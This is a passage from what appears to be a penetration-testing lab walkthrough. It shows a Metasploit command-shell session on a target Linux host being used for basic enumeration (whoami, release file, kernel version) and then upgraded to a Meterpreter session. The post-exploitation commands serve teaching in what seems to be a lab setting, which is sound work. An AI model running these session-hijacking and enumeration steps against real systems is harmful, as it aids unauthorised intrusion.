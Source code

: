 This will authenticate, and provide us with a command shell session on the target system.

```
sessions
sessions 1
```

That gives us access to the Linux system via a command shell.

```
pwd
```

Open up a bash session here.

```
/bin/bash -i
```

We are currently logged in as the user Jackie. We can perform some basic enumeration.

```
jackie@victim-1:~$ whoami
```

We are indeed Jackie.

```
jackie@victim-1:~$ cat /etc/*issue
```

That's the distribution release version.

```
jackie@victim-1:~$ uname -r
```

We get the kernel version.

We want to establish a Meterpreter session or to upgrade our command shell session into a Meterpreter session.

Put this in the background.

```
jackie@victim-1:~$ ^Z
Background session 1 [y/N] y
```

Utilize the sessions command and upgrade session 1.

```
sessions -u 1
sessions
sessions 2
```

```
meterpreter > sysinfo
meterpreter > getuid
```

In this case, it says no-user, but it provides us with the user id. The user is jackie.
